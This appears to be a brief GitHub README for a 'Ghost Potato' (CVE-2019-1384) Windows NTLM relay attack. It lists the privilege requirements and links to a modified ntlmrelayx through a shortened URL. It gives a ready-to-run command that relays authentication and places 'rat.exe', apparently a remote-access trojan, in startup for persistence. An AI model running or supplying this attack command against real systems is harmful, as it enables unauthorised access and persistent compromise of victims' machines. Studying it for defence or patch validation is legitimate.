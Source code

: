 # Ghost Potato CVE=2019-1384

## Requirements

#### 1) User must be a member of the local Administrators group

#### 2) User must be a member of the Backup Operators group

#### 3) Token must be elevated 

### Using a modified version of ntlmrelayx: https://tinyurl.com/28udqr6s

 - ntlmrelayx -smb2support --no-smb-server --gpotato-startup rat.exe

